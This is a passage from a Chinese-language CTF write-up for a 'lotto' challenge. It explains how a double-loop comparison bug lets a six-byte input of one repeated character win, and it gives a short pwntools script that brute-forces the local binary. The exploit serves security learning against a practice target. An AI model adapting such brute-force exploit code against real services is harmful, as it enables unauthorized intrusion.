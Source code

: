 `buf`是程序生成的数组，长度为6，但是被模了45，范围缩小很多

`submit`是我们的输入，长度也为6

其实要达到`v3 == 6`很简单，原因是**双重循环** 。我们只需输入一个长度为6，每个字符都一样的字符串，然后爆破即可。因为只要碰到和`submit`数组里一个元素相等，那么`v3 == 6`就稳了。

exp如下

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
__Auther__ = 'L1B0'

from pwn import *
context.log_level = 'debug'

io = process('./lotto')

for i in range(46):

	my_byte = chr(i)*6
	io.sendline('1')
	io.sendlineafter(": ",my_byte)
	a = io.recvline()
	if a != "Lotto Start!\n":
		break
        
io.interactive()
```





